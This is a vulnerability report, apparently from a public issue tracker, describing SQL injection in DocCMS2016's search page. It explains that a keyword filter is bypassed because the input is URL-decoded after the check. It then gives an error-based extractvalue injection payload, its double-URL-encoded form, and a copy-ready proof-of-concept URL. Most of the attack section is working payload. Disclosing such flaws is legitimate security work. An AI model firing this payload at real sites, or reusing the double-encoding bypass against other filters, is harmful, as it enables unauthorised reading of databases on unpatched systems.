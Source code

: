 # Summary
DocCMS2016(http://doccms.com/?p=40) has a SQL injection vulnerability at `/search/index.php?keyword`.

# Analyze
You can get the source code of the website here: https://gitee.com/husky/DocCMS/releases/download/2016/DocCms-20160517.rar
In `content\search\index.php`:
![image](https://github.com/user-attachments/assets/8d470560-22d2-4d7c-8198-b640d625254e)


There is a `checkSqlStr` filter for sql query statements:
![image](https://github.com/user-attachments/assets/b68311a2-2678-4272-81b2-74fe90f21a7f)

However, just below the check, a urldecode is done, we can double url encode the payload to bypass the waf:
![image](https://github.com/user-attachments/assets/36d41b31-f4a9-4fa5-8725-a31fa4f3382a)

# Details
Normal keyword search:
![image](https://github.com/user-attachments/assets/fec26571-6b36-4390-a9fd-c0fa520d7ba2)

We use this sql injection payload: 
```
1' and extractvalue(1,concat(0x7e,(select database()),0x7e)) -- -
```
Then double url encode:
```
1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%36%34%25%36%31%25%37%34%25%36%31%25%36%32%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%30%25%32%64%25%32%64%25%32%30%25%32%64
```
![image](https://github.com/user-attachments/assets/3742ed60-443a-4b8d-9609-a92337ccf770)


# PoC
```
/search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%36%34%25%36%31%25%37%34%25%36%31%25%36%32%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%30%25%32%64%25%32%64%25%32%30%25%32%64
```
![image](https://github.com/user-attachments/assets/3742ed60-443a-4b8d-9609-a92337ccf770)
